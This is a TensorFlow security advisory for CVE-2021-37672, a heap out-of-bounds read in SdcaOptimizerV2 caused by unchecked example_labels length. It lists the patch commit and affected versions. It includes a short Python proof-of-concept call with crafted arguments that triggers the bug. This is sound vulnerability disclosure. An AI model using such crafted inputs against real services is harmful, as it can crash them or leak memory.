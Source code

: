 ## TFSA-2021-146: Heap OOB in `SdcaOptimizerV2`

### CVE Number
CVE-2021-37672

### Impact
An attacker can read from outside of bounds of heap allocated data by sending
specially crafted illegal arguments to `tf.raw_ops.SdcaOptimizerV2`:

```python
import tensorflow as tf

tf.raw_ops.SdcaOptimizerV2(
  sparse_example_indices=[[1]],
  sparse_feature_indices=[[1]],
  sparse_feature_values=[[1.0,2.0]],
  dense_features=[[1.0]],
  example_weights=[1.0],
  example_labels=[],
  sparse_indices=[1],
  sparse_weights=[1.0],
  dense_weights=[[1.0]],
  example_state_data=[[100.0,100.0,100.0,100.0]],
  loss_type='logistic_loss',
  l1=100.0,
  l2=100.0,
  num_loss_partitions=1,
  num_inner_iterations=1,
  adaptive=True)
```

The
[implementation](https://github.com/galeone/tensorflow/blob/460e000de3a83278fb00b61a16d161b1964f15f4/tensorflow/core/kernels/sdca_internal.cc#L320-L353)
does not check that the length of `example_labels` is the same as the number of
examples.

### Patches
We have patched the issue in GitHub commit
[a4e138660270e7599793fa438cd7b2fc2ce215a6](https://github.com/galeone/tensorflow/commit/a4e138660270e7599793fa438cd7b2fc2ce215a6).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/galeone/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
